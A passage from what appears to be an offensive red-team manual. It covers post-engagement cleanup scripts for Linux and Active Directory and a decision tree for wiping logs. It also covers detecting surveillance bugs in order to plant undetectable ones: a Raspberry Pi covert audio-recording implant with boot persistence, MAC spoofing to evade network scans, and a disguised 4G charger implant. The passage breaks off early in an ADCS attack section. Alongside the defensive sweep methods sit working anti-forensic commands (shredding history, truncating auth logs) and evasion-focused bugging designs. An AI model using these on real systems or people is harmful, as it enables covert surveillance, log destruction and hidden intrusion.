# LINUX POST-ENGAGEMENT CLEANUP SCRIPT
# Run as: sudo bash cleanup_linux.sh
# ===================================================================

echo "[*] Starting Linux cleanup ..."

# Section 1: Remove dropped files
echo "[*] Removing dropped files ..."
OUR_FILES=(
    "/tmp/beacon"
    "/tmp/implant"
    "/usr/local/bin/sysupdate"
    "/etc/cron.d/sysupdate"
)
for f in "${OUR_FILES[@]}"; do
    if [ -f "$f" ]; then
        shred -u "$f" && echo "  [+] Shredded: $f"
    fi
done

# Section 2: Remove cron jobs
echo "[*] Removing cron jobs ..."
CRON_STRINGS=("beacon" "sysupdate" "ltbeacon")
for str in "${CRON_STRINGS[@]}"; do
    crontab -l 2>/dev/null | grep -v "$str" | crontab -
    grep -v "$str" /etc/crontab > /tmp/crontab.new && mv /tmp/crontab.new /etc/crontab
done
find /etc/cron.d/ /etc/cron.hourly/ /etc/cron.daily/ -name "*update*" -o -name "*sys*" 2>/dev/null | \
    xargs rm -f

# Section 3: Remove systemd services / units
echo "[*] Removing systemd units ..."
OUR_UNITS=("sysupdate.service" "networkhelper.service")
for unit in "${OUR_UNITS[@]}"; do
    if systemctl is-active --quiet "$unit" 2>/dev/null; then
        systemctl stop "$unit" && systemctl disable "$unit"
        rm -f "/etc/systemd/system/$unit"
        echo "  [+] Removed unit: $unit"
    fi
done
systemctl daemon-reload

# Section 4: Clear bash history (multiple layers)
echo "[*] Clearing bash history ..."
# Current session:
history -c && history -w
# User history file:
shred -u ~/.bash_history 2>/dev/null; touch ~/.bash_history
# Root history:
shred -u /root/.bash_history 2>/dev/null; touch /root/.bash_history
# Set HISTFILE to /dev/null for this session:
export HISTFILE=/dev/null

# Section 5: Clear syslog, auth.log, secure
echo "[*] Clearing system logs ..."
# NOTE: See Section 5.4 (Log Clearing Decision Tree) before executing.
for log_file in /var/log/syslog /var/log/auth.log /var/log/secure \
                /var/log/messages /var/log/kern.log \
                /var/log/wtmp /var/log/btmp /var/log/lastlog; do
    if [ -f "$log_file" ]; then
        : > "$log_file"   # Truncate to zero (preserves file descriptor)
        echo "  [+] Truncated: $log_file"
    fi
done

# Clear journald logs:
journalctl --rotate 2>/dev/null
journalctl --vacuum-time=1s 2>/dev/null

# Section 6: Remove SSH authorized keys we added
echo "[*] Removing backdoor SSH keys ..."
# Remove our public key from all users' authorized_keys:
OUR_KEY_COMMENT="lt_implant_01"
for home in /home/*/ /root/; do
    auth_file="$home/.ssh/authorized_keys"
    if [ -f "$auth_file" ]; then
        grep -v "$OUR_KEY_COMMENT" "$auth_file" > "${auth_file}.new"
        mv "${auth_file}.new" "$auth_file"
        echo "  [+] Cleaned authorized_keys: $auth_file"
    fi
done

echo ""
echo "[*] Linux cleanup complete."
```

---

### 5.2 ACTIVE DIRECTORY CLEANUP

```powershell
# ===================================================================
# ACTIVE DIRECTORY CLEANUP
# Run from Domain Controller or domain admin context
# ===================================================================

Import-Module ActiveDirectory

# Section 1: Remove accounts we created
Write-Host "[*] Removing created accounts ..."
$OurAccounts = @("svc_backup_red", "helpdesk.temp", "admin.support")
foreach ($acct in $OurAccounts) {
    if (Get-ADUser -Filter { SamAccountName -eq $acct } -ErrorAction SilentlyContinue) {
        Remove-ADUser -Identity $acct -Confirm:$false
        Write-Host "  [+] Removed account: $acct"
    }
}

# Section 2: Remove groups we created
$OurGroups = @("RedTeam_Temp", "IT_Support_Extended")
foreach ($grp in $OurGroups) {
    if (Get-ADGroup -Filter { Name -eq $grp } -ErrorAction SilentlyContinue) {
        Remove-ADGroup -Identity $grp -Confirm:$false
        Write-Host "  [+] Removed group: $grp"
    }
}

# Section 3: Revert group memberships we changed
Write-Host "[*] Reverting group membership changes ..."
# If we added ourselves to Domain Admins: remove
# Note: use the actual group name in your target environment
# Remove-ADGroupMember -Identity "Domain Admins" -Members "svc_backup_red" -Confirm:$false

# Section 4: krbtgt password reset (if Golden Ticket was created)
# ONLY execute if a Golden Ticket was actually created during the engagement.
# The krbtgt account password must be reset TWICE with a gap of at least
# 10 hours between resets (accounts for the maximum ticket lifetime of 10 hours
# and the maximum tolerance for Kerberos clock skew).
Write-Host ""
Write-Host "[!] GOLDEN TICKET CHECK:"
Write-Host "    If a Golden Ticket was created: reset krbtgt password TWICE."
Write-Host "    Reset 1: now."
Write-Host "    Reset 2: at least 10 hours later."
Write-Host "    Reason: all Kerberos tickets are invalidated only after the second"
Write-Host "    reset because the DC caches the previous krbtgt key hash."
Write-Host ""
Write-Host "    Command (run twice, 10+ hours apart):"
Write-Host "    Set-ADAccountPassword -Identity krbtgt -Reset -NewPassword (ConvertTo-SecureString [STRONG_RANDOM] -AsPlainText -Force)"
Write-Host ""
Write-Host "    If NO Golden Ticket was created: skip this step."
Write-Host "    If unsure: check your engagement notes. Golden Ticket = mimikatz golden"
Write-Host "    or impacket ticketer was run. If not: no reset needed."

# Section 5: Remove GPOs we created
Write-Host "[*] Removing created GPOs ..."
$OurGPOs = @("IT_Security_Policy_Temp", "RemoteAccess_Extended")
foreach ($gpo in $OurGPOs) {
    if (Get-GPO -Name $gpo -ErrorAction SilentlyContinue) {
        Remove-GPO -Name $gpo -Confirm:$false
        Write-Host "  [+] Removed GPO: $gpo"
    }
}

# Section 6: Remove AD CS certificate templates we modified (if ADCS attacks were performed)
# See Section 7 (ADCS) for cleanup of modified certificate templates
Write-Host ""
Write-Host "[*] AD cleanup complete."
Write-Host "[!] Remember to:"
Write-Host "    - Verify Backup Operators group membership is correct (our primary escalation path)"
Write-Host "    - Verify GenericWrite ACLs on compromised users are reverted"
Write-Host "    - Confirm NTDS.dit dump artifacts are removed from DC disk"
```

---

### 5.3 PHYSICAL CLEANUP CHECKLIST

```
PHYSICAL CLEANUP (complete before leaving the engagement area):

  LAN Turtle retrieval:
    [ ] Return to deployment location using a fresh pretext
        ("I think I left my phone charger in the conference room")
    [ ] Remove the LAN Turtle from the switch port
    [ ] Replace the original cable in the port
    [ ] Confirm the phone/device that was plugged into it is reconnected
    [ ] The switch port should look exactly as it did before you arrived

  Badge and credential materials:
    [ ] Collect all cloned T5577 cards from all operators
    [ ] Destroy (cut, shred): do not discard intact
    [ ] Collect printed visual badge clones: shred
    [ ] Delete cloned credential data from Flipper Zero and Proxmark3

  Operator personal equipment:
    [ ] Retrieve any USB drives, Rubber Duckys, USB imagers left on site
    [ ] Retrieve any access tools (picks, bypass tools, UDT) from bags
        in case security is alerted and bags are searched at exit

  Pretext materials:
    [ ] Collect business cards distributed to targets: note how many unaccounted for
    [ ] Collect work order printouts
    [ ] Dispose of any props (clipboards, vendor vests) appropriately
    [ ] Delete pretext email accounts
    [ ] Deactivate pretext LinkedIn profiles

  Documentation of physical artifacts:
    [ ] Photograph each implant location before retrieval
        (evidence of placement for the report)
    [ ] Photograph each implant location after retrieval
        (evidence of clean removal for the cleanup log)
    [ ] Note the time of each retrieval for the timeline
```

---

### 5.4 LOG CLEARING DECISION TREE

```
This is the most commonly mishandled step in engagement cleanup.
The answer depends on what type of engagement you ran.

Decision tree:

  Is the engagement BLIND (blue team is NOT aware)?
    YES:
      Clear logs. The engagement value includes testing whether the blue team
      detects the intrusion AND the cleanup. A full clean exit = a harder lesson
      for the blue team. This is the expected behavior for a blind red team.
      --> Proceed with all log clearing steps above.
    
    NO (blue team IS aware = "assumed breach" or "purple team" format):
      Do you need the logs for the debrief / purple team session?
        YES:
          DO NOT clear logs. Export them first.
          The logs are evidence of what happened: they teach the blue team.
          After the debrief and any log analysis is complete:
          client security team handles their own log retention per their policy.
          --> Skip log clearing. Export relevant logs in JSON/CSV for the report.
        
        NO (logs not needed for debrief):
          Client preference decides.
          Ask during the pre-engagement scoping questionnaire (Section 4.1):
          "Do you want logs cleared at the end of the engagement?"
          Follow the written answer from the signed scope document.
          --> Follow client instruction.

  Is this a TIBER-EU or CBEST engagement?
    YES:
      DO NOT clear logs. The regulator requires evidence of the attack timeline.
      All logs are evidence and must be preserved for the regulatory submission.
      --> DO NOT clear anything.

  Rule of thumb for every case:
    If unsure: export first, then clear.
    A log you export and then delete is better than a log you cannot recreate.
    The export goes to your encrypted operator storage, is shared with the client
    during the debrief, and is destroyed per your data handling agreement.

WHAT TO EXPORT BEFORE CLEARING:
  Windows Security log: relevant Event IDs for your attack chain
    4624/4625: logon success/failure
    4648:      explicit credential logon (pass-the-hash visible here)
    4698/4702: scheduled task created/modified
    4728/4756: member added to security-enabled group
    7045:      new service installed
  
  Sysmon log: filter to your activity timeframe
    Event ID 1:  process creation (your tool executions)
    Event ID 3:  network connection (your C2 callbacks)
    Event ID 11: file creation (your dropped files)
  
  Export command:
    wevtutil qe Security /q:"*[System[TimeCreated[@SystemTime>='2027-01-01T09:00:00.000Z']]]" \
              /rd:true /f:xml > C:\Temp\security_export.xml
```

---

## SECTION 6: TSCM: FINDING BUGS TO PLANT THEM

> TSCM (Technical Surveillance Countermeasures) is the practice of detecting surveillance devices. The offensive application is the inverse: understanding detection methods well enough to place devices that evade them. You cannot plant a good bug until you understand how it gets found.

---

### 6.1 SURVEILLANCE DEVICE TYPES AND SIGNATURES

```
CATEGORY 1: RF (Radio Frequency) TRANSMITTERS
  How they work: transmit audio/video over radio frequency
  Detection: RF spectrum analyzer (sees the transmission)
  Common frequencies:
    GSM bugs:     890-960 MHz (900MHz band), 1710-1880 MHz (1800MHz band)
    UMTS/3G bugs: 1900-2200 MHz
    WiFi bugs:    2.4 GHz (2400-2483 MHz), 5 GHz (5150-5850 MHz)
    Analog video: 900 MHz, 1200 MHz, 2400 MHz bands
    Bluetooth:    2.402-2.480 GHz (frequency-hopping: harder to catch)
    Sub-GHz:      315 MHz, 433 MHz, 868 MHz (common for simple audio transmitters)

  GSM bugs: most common professional-grade device in 2027
  Behavior: GSM chip registers on the cellular network and calls a number
  or sends audio over SMS/data when triggered.
  Detection signature: distinct GSM duty cycle burst: 4.6ms active every 577ms.
  The burst is visible as a repeating spike on a spectrum analyzer.

CATEGORY 2: PASSIVE DEVICES (no RF during standby)
  How they work: store recordings locally; retrieved physically or via short-range RF
  Detection: NLJD (Non-Linear Junction Detector)
  Examples: voice-activated recorders (Sony ICD-PX470, ~$50), camera modules,
            SIM card loggers disguised as everyday objects

CATEGORY 3: OPTICAL DEVICES (cameras)
  How they work: camera module hidden in an object; may or may not transmit
  Detection: lens detection devices (optical or laser-based)
  Common disguises: smoke detectors, clocks, chargers, USB adapters, picture frames,
                    pens, tie clips, glasses
  Lens detection: laser-based detectors (KJB Security DD1206P) illuminate the room;
  camera lenses retroreflect the laser as a bright glint visible through the viewer.

CATEGORY 4: NETWORK DEVICES (implants on the LAN)
  How they work: hardware implant on the network: LAN Turtle, Packet Squirrel, Pi Zero W
  Detection: network scan, unauthorized device enumeration, ARP monitoring
  Examples: LAN Turtle, Hak5 Shark Jack, custom Pi Zero with 4G dongle

CATEGORY 5: DISGUISED DEVICES (purpose-built covert hardware)
  How they work: functional everyday object containing surveillance hardware
  Examples: wall charger with GSM bug (common, $30-80 from AliExpress),
            USB charging cable with keylogger, power strip with WiFi spy camera,
            smoke detector with camera + WiFi, motion detector with GSM audio bug
  Detection: requires combination of all four methods above
```

---

### 6.2 DETECTION METHODOLOGY: STEP BY STEP

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

```
STEP 1: PHYSICAL VISUAL INSPECTION
  Before electronics: use your eyes. Most bugs are in objects.
  What to inspect:
    All power outlets and socket face plates (common place to hide a bug)
    All smoke detectors and CO detectors (height gives them coverage of the room)
    All clocks, picture frames, and decorative items on walls or desks
    All items that seem out of place or have been recently moved
    (look for dust outlines, disturbed surfaces, fresh marks on walls)
    All USB chargers and power strips
    All conference phones and desk phones
    Under tables and desks (magnetic-mount devices attach to the underside)
    Inside air vents within arm's reach
    Behind mirrors (two-way mirror test: place your fingernail on the mirror surface.
    If there is a gap between your nail and its reflection: standard mirror.
    If there is no gap: two-way mirror. Tap: hollow sound = suspect.)

STEP 2: RF SPECTRUM SWEEP
  Tool: RF Explorer (Section 6.3 has the full walkthrough)
  Time required: 15-20 minutes for a standard conference room
  What to look for: unexpected transmissions in bug frequency ranges
  
  Critical behavior to check for: GSM duty cycle
    GSM bugs are often set to transmit only when triggered (sound-activated or called).
    During a sweep if the room is quiet: the bug may not be transmitting.
    Introduce noise: speak aloud, play a sound, clap: trigger the VOX (voice-activated) bug.
    Then sweep again. The GSM burst will appear if a VOX bug is present.

STEP 3: NLJD (Non-Linear Junction Detector) SWEEP
  Tool: REI ORION 2.4 HX ($3,800+) or less expensive CCM-100 (~$800)
  What it detects: semiconductor junctions (transistors, diodes, chips)
  How: transmits a signal; semiconductors return a harmonic (2nd or 3rd order)
  Result: the NLJD finds electronics even when they are powered off, passive,
  or shielded against RF emission.
  
  FALSE POSITIVE MANAGEMENT (the step most tutorials skip):
    In an electronics-dense office: the NLJD will detect everything.
    Every electrical outlet, laptop, phone charger, desk lamp will respond.
    
    Triage protocol for false positives:
    Step A: When the NLJD signals, mark the location with painter's tape.
    Step B: Identify the obvious electronics at that location.
    Step C: Move the electronics: re-sweep at that exact location.
            If signal disappears: it was the known device. Clear.
            If signal remains: there is a device that is NOT accounted for. Investigate.
    Step D: Inspect concealed areas: inside walls, under baseboards, inside furniture.
    
    NLJD response characteristics:
      Real device: strong 2nd-harmonic response, directional (follows the antenna sweep)
      False positive (foil, metal): strong response to both 2nd AND 3rd harmonic
                                   proportionally: real semiconductors have a distinctive
                                   2nd:3rd harmonic ratio vs. passive metal

STEP 4: OPTICAL LENS DETECTION
  Tool: KJB Security DD1206P lens detector (~$30): simple but effective
        JMDHKK Bug Detector (also useful for quick office sweeps, ~$40)
  Method: turn off room lights. Shine the lens detector's infrared LEDs around the room
          while looking through the detector's viewer (red filter on the eyepiece).
          Camera lenses retroreflect the IR as a distinct glint: visible at distances
          up to 6-8 meters depending on lens size.
  Sweep: slowly scan the room in a grid pattern (not random).
         Pay special attention to: smoke detectors, wall outlets, clocks, picture frames.
  
  Confirm a find: if you see a glint that does not correspond to a known reflective surface
  (window, mirror, glass decor), investigate that location physically.

STEP 5: NETWORK DEVICE SCAN
  From a laptop connected to the target network:
```

```bash
# Step 5a: Discover all devices on the local subnet
nmap -sn 192.168.1.0/24 -oG /tmp/hosts.txt

# Step 5b: Identify unauthorized devices
# Export a known-good device list from IT (or build one on a clean Monday morning).
# Compare the current scan to the known-good list.
# Any MAC address not in the known-good list is a candidate for investigation.

# Step 5c: Identify LAN Turtle / Pi Zero / Hak5 device signatures:
# LAN Turtle Gen 3 MAC prefix: Motorola Solutions (70:3A:CB) or Hak5 (00:13:37)
# Check OUI:
grep "00:13:37\|70:3A:CB\|DC:A6:32\|B8:27:EB" /tmp/hosts.txt
# DC:A6:32 and B8:27:EB = Raspberry Pi Foundation: investigate any Pi on the network

# Step 5d: ARP sweep (catches devices that do not respond to ICMP):
arp-scan --localnet 2>/dev/null | grep -iE "00:13:37|70:3A:CB|DC:A6:32|B8:27:EB"

# Step 5e: Check for unusual network activity from unknown devices:
# Install Wireshark or tcpdump and watch traffic for 5 minutes.
# Signs of an implant: outbound SSH or HTTPS to unusual external IPs,
# periodic keep-alive packets, DNS queries to dynamic DNS providers.
tcpdump -i eth0 -n 'not (src host 192.168.1.1 or dst host 192.168.1.1)' \
        -w /tmp/network_sweep.pcap &
sleep 300 && kill %1  # Capture for 5 minutes
```

```
STEP 6: AUDIO ANOMALY AND POWER LINE CHECK
  Audio anomaly check:
    Use a smartphone app (Spectrum Analyzer Pro, Audio Spectrum Analyzer)
    in a quiet room to look for anomalous sounds in the ultrasonic range.
    Some older analog transmitters produce a carrier tone that bleeds into
    the audible or near-audible range.
  
  Power line analysis:
    Some devices transmit data over power lines (Power Line Carrier communication).
    Tool: REI CPM-700 or a power line spectrum analyzer.
    Connect to the power circuit and sweep 5-500 kHz.
    Legitimate power line noise: harmonics of 60 Hz (US) or 50 Hz (EU).
    Unexpected narrowband signals in the 100-300 kHz range: investigate.
```

---

### 6.3 RF EXPLORER PRACTICAL WALKTHROUGH

```
EQUIPMENT:
  RF Explorer 3G+ (recommended: covers 15 MHz - 2.7 GHz): ~$130
  RF Explorer 6G (covers up to 6.1 GHz, includes 5 GHz WiFi band): ~$220
  SMA antenna: the stock dipole antenna works for initial sweeps

SETUP:
  Connect RF Explorer to laptop via USB.
  Install RF Explorer for Windows or rfexplorer (Python, cross-platform).
  Launch the software: the live spectrum view opens immediately.

REFERENCE BASELINE (do this FIRST):
  Before you enter the target space: take a reference capture OUTSIDE the room
  with no one inside. This gives you the ambient RF environment of the building.
  Save it. Compare all subsequent sweeps against this baseline.
  Anything that appears ONLY after you enter the room is a candidate.

BAND-BY-BAND SWEEP:

  Band 1: Sub-GHz (15 MHz - 960 MHz)
    Set RF Explorer: Start 15 MHz, Stop 960 MHz
    Sweep time: 3-5 minutes, slow manual sweep
    What you see: FM radio (88-108 MHz), cell towers (700-960 MHz),
    ISM devices (315, 433, 868 MHz), GSM downlink (869-960 MHz)
    
    WHAT TO FLAG: Any unexplained persistent signal above noise floor by > 15 dBm
    GSM bug signature: look at 890-960 MHz range.
    A GSM bug shows as a narrow burst (4.6 ms wide) repeating every ~577 ms.
    It looks like a regular spike in the GSM band. Compare against the baseline.
    If the spike is present inside the room but not in your baseline: investigate.

  Band 2: 2.4 GHz (WiFi + Bluetooth + analog cameras)
    Set: Start 2400 MHz, Stop 2485 MHz
    What you see: your own WiFi, neighboring WiFi (continuous with SSID beacons),
    Bluetooth devices (frequency-hopping, appears as a wide low-level spread)
    
    Analog camera signature: if a 2.4 GHz wireless camera is present, you will see
    a very wide (20-50 MHz) continuous signal at a fixed frequency in the 2.4 GHz band.
    It looks distinctly different from WiFi (which hops and has specific channel patterns).
    
    Modern IP camera (WiFi-connected): appears as a normal WiFi device.
    Catch it in Step 5 (network scan) rather than RF sweep.

  Band 3: 5 GHz (modern WiFi cameras)
    Set: Start 5150 MHz, Stop 5850 MHz (requires 6G model)
    Most covert cameras that use 5 GHz look like a standard WiFi AP.
    Catch these in the network scan: they appear as unknown WiFi clients.

  Band 4: GSM 1800/UMTS/4G (more sophisticated bugs)
    Set: Start 1700 MHz, Stop 2200 MHz
    4G LTE bugs: more bandwidth, more sophisticated, harder to detect by signal alone.
    Detection: 4G devices have distinctive LTE frame structure.
    Look for: wide-band (5-20 MHz) signals in the 1700-2100 MHz range that were
    not present in your baseline scan.

DWELL TIME AND TRIGGER:
  Spend at least 3 minutes on each band without moving.
  Then trigger: make noise (clap, speak, bang on the table).
  VOX (voice-activated) bugs activate on sound.
  Watch the RF Explorer for new signals that appear AFTER you introduce noise.
  If a signal appears at 890-960 MHz within 5-10 seconds of a loud noise:
  you have found a VOX-triggered GSM bug. Note the exact frequency.

SIGNAL INTERPRETATION TABLE:
  Signal type                              | Expected behavior
  -----------------------------------------|--------------------------------------------
  FM Radio (88-108 MHz)                    | Continuous, multiple carriers: normal
  ISM 433 MHz (remote controls, sensors)   | Intermittent pulses: check baseline
  GSM 900 (legitimate cell coverage)       | Regular traffic from towers, external only
  GSM 900 bug                              | NEW burst inside room not in baseline
  2.4 GHz WiFi (known AP)                  | Continuous beacons at fixed channel: normal
  2.4 GHz analog camera                    | Continuous wide signal at fixed frequency: SUSPECT
  Bluetooth (headsets, keyboards)          | Frequency-hopping spread: identify source
  Unknown narrowband signal > 15 dB floor  | INVESTIGATE: note freq, bandwidth, behavior
```

---

### 6.4 LAB EXERCISE: BUILD AND DETECT

```
PURPOSE:
  You cannot understand detection until you have done placement.
  This lab teaches both skills simultaneously.

MATERIALS:
  Raspberry Pi Zero 2 W ($15)
  USB audio dongle (SABRENT USB sound adapter, $8)
  USB OTG adapter ($3)
  MicroSD card 16GB ($5)
  USB-C power bank (or USB power adapter)
  RF Explorer or cheap spectrum analyzer (WiPry app on iOS works for basic detection)
  Small box or household object to conceal the Pi

STEP 1: SET UP THE PI ZERO AS AN AUDIO IMPLANT
```

```bash
# Flash Raspberry Pi OS Lite to MicroSD (use Raspberry Pi Imager)
# Boot and SSH in: ssh pi@raspberrypi.local

# Install recording software:
sudo apt-get update && sudo apt-get install -y sox arecord alsa-utils wireless-tools

# Identify your USB audio device:
arecord -l
# Should show: USB PnP Sound Device

# Test recording:
arecord -D plughw:1,0 -f cd -t wav test.wav
# Speak for 5 seconds, Ctrl+C

# Set up continuous recording (writes 10-minute chunks):
cat > /home/pi/record.sh << 'EOF'
#!/bin/bash
while true; do
    FILENAME="/tmp/rec_$(date +%Y%m%d_%H%M%S).wav"
    arecord -D plughw:1,0 -f cd -t wav -d 600 "$FILENAME"
    # Optional: compress and exfil via WiFi
done
EOF
chmod +x /home/pi/record.sh

# Auto-start on boot (cron):
echo "@reboot sleep 10 && /home/pi/record.sh &" | crontab -

# If using WiFi to exfil: configure wpa_supplicant with target WiFi credentials
# Pi Zero W will auto-connect and files can be retrieved via scp or uploaded to C2
```

```
STEP 2: CONCEAL THE DEVICE
  Place the Pi Zero + audio dongle inside a household object:
  phone charger box, alarm clock housing, book, small decorative item.
  
  Challenge: can a colleague find it with only their eyes and no equipment?

STEP 3: ATTEMPT DETECTION (using skills from Section 6.2)
  Now try to find it:
  
  Visual inspection (Step 1): can you spot it?
  
  RF sweep (Step 2):
    Pi Zero W in access point mode: visible as a 2.4 GHz signal
    Pi Zero W in client mode (connected to WiFi): visible as a WiFi device in a network scan
    Pi Zero W with 4G USB dongle: sweep 700-2100 MHz for the 4G burst
  
  NLJD (Step 3):
    Pi Zero contains multiple semiconductor junctions (CPU, WiFi chip, audio codec).
    The NLJD will respond strongly to the Pi Zero even when powered off.
    Can you locate it from the NLJD response?
  
  Optical (Step 4):
    No camera in this build: optical step should not trigger.
    (Add a camera module to make it a full multi-sensor lab)
  
  Network scan (Step 5):
    If connected to WiFi: nmap will find it.
    Compare MAC address against known-good device list.
    Pi Zero MAC prefix DC:A6:32 or B8:27:EB: immediate flag.

STEP 4: ITERATE
  Move the concealment. Try different locations. Repeat the detection.
  Goal: develop the instinct for WHERE bugs are placed most effectively.
  Every location teaches you something about detection difficulty.
  The hardest location to detect = the best offensive placement.
```

---

### 6.5 OFFENSIVE PLANTING PRINCIPLES

```
The four offensive planting principles are derived directly from the four
detection methods above. Each detection gap directly generates a planting principle.

PRINCIPLE 1: NO-EMIT STANDBY
  Detection gap: RF spectrum sweep only finds devices when they are transmitting.
  Principle: design the implant to emit nothing during standby.
  Implementation:
    VOX activation: device transmits only when sound above a threshold is detected.
    Scheduled transmission: device transmits only during specific time windows
    (when the room is typically occupied: detectable by building access logs).
    GSM callback-only: device is silent until it receives a specific SMS or call
    to activate: zero RF emission until triggered remotely.
  
  Result: an RF sweep conducted when the room is empty and the bug is in standby
  will show nothing. The sweep must be conducted during active use to catch it.

PRINCIPLE 2: FORM FACTOR CAMOUFLAGE (NLJD MITIGATION)
  Detection gap: NLJD finds semiconductors but must triage false positives.
  Principle: conceal the device in an object that legitimately contains electronics.
  Implementation:
    A bug hidden inside a real power strip with real USB charging chips:
    the NLJD response is attributed to the known electronics.
    A bug inside a Bluetooth speaker: the response is attributed to the speaker.
    A bug inside a laptop charger brick: the response is attributed to the charger.
  
  The ideal form factor: an object that belongs in the space, contains its own
  legitimate electronics (to explain the NLJD response), and draws power from
  the building (so no battery swap is needed).

PRINCIPLE 3: LENS CONCEALMENT (OPTICAL MITIGATION)
  Detection gap: optical detection requires a clear line of sight to the lens.
  Principle: place camera lenses where the lens detection sweep is physically obstructed.
  Implementation:
    Pinhole cameras: the lens is 1-3mm in diameter. At 5+ meters, requires extreme
    precision from the detector sweep to catch the retroreflection.
    Inside objects with small openings (screw holes, ventilation slots,
    tie clips, button holes): the lens faces the room through a tiny aperture.
    False-front concealment: the camera points through a dark-tinted but optically
    transparent material (dark acrylic). The material reduces retroreflection
    while allowing the camera to see.

PRINCIPLE 4: MAC CAMOUFLAGE (NETWORK DETECTION MITIGATION)
  Detection gap: network scans flag devices with unknown or hardware-specific MAC addresses.
  Principle: spoof the MAC address to match an authorized device type.
  Implementation:
    On the LAN Turtle or Pi Zero:
```

```bash
# Spoof MAC address to match a known authorized device type (e.g., Dell laptop):
sudo ip link set eth0 down
sudo ip link set eth0 address 00:1A:A0:XX:XX:XX  # Dell OUI: 00:1A:A0
sudo ip link set eth0 up

# Or using macchanger:
sudo apt-get install -y macchanger
sudo macchanger -m 00:1A:A0:$(openssl rand -hex 3 | sed 's/\(..\)/\1:/g;s/:$//') eth0

# OPSEC: choose an OUI that is common in the target environment.
# If the target uses all HP machines: use an HP OUI.
# HP common OUIs: 00:17:A4, 3C:D9:2B
# Lenovo: 00:21:CC, 28:D2:44
# Apple: 00:17:F2, 3C:22:FB
# Match the OUI to what nmap would expect to see in that environment.
```

```
  IDEAL IMPLANT CONCEPT (2027 best-in-class):
  
    Form factor: USB-C wall charger (provides legitimate power, has its own electronics)
    
    Hardware:
      Real USB-C PD charging IC (makes it functional: passes the "plug in phone" test)
      Raspberry Pi Compute Module 4 (small, low power, powerful)
      4G LTE USB modem with SIM (no local network dependency)
      USB audio dongle (for audio collection)
      Pinhole camera module (optional)
    
    Behavior:
      Charges phones normally (passes physical inspection and use-testing)
      Transmits only during business hours (VOX + scheduled window)
      Uses CDN domain-fronted HTTPS beacon (not AutoSSH: see Section 1.8)
      MAC address spoofed to match common charger/embedded device OUI
      4G modem: completely independent of target network (no network scan can catch it)
    
    Detection resistance:
      Visual: looks and functions like a charger
      RF: only transmits during scheduled windows when the room is occupied
          (sweep during empty room: nothing found)
      NLJD: response attributed to the legitimate charging IC
      Optical: no camera, or pinhole camera with dark acrylic cover
      Network: on 4G modem: invisible to local network entirely
    
    This is the standard that separates professional-grade surveillance hardware
    from the average hardware implant described in most security courses.
```

---

## SECTION 7: ADCS ATTACK PATHS

> Active Directory Certificate Services (ADCS) is the most exploited privilege escalation vector in enterprise Active Directory as of 2027. BloodHound discovers it. Certipy exploits it. Most organizations have it. Most blue teams cannot detect it. Every top-0.0001% operator must know it completely.

---

### 7.1 WHAT ADCS IS AND WHY IT MATTERS

```
WHAT ADCS IS:
  Active Directory Certificate Services is Microsoft's Public Key Infrastructure (PKI)
  implementation. It issues digital certificates to users, computers, and services
  within a domain for authentication, encryption, and code signing.
  
  Components:
    Certificate Authority (CA): the server that issues certificates
      Enterprise CA: integrated with AD, certificates use AD objects
      Standalone CA: not AD-integrated
    Certificate Templates: define what certificates can be issued, to whom, and with what properties
    Enrollment: how principals request and receive certificates

WHY IT IS THE DOMINANT 2027 ESCALATION VECTOR:
  1. Certificates issued by ADCS can authenticate to AD without a password.
     A certificate for UserA lets you log in as UserA forever (until it expires).
     Unlike passwords, certificates do not change when a user resets their password.
  
  2. ADCS has been deployed and never reviewed in most organizations.
     Default certificate templates from Windows 2000 are still active in 2027 environments.
     Misconfigured templates = trivial privilege escalation.
  
  3. Most EDR and SIEM products do not alert on certificate enrollment requests.
     Kerberoasting triggers alerts. ADCS exploitation often does not.
  
  4. The attack was publicly documented in 2021 (Certified Pre-Owned: SpecterOps).
     Four years later, most organizations have not audited their PKI.

ADCS ATTACK TAXONOMY (ESC1-ESC13: we cover the three most critical):
  ESC1: misconfigured certificate template (enrollee supplies SAN)
  ESC4: write permission on a certificate template
  ESC8: NTLM relay to ADCS HTTP enrollment endpoint
```

<div align="center">
<table><tr><td>

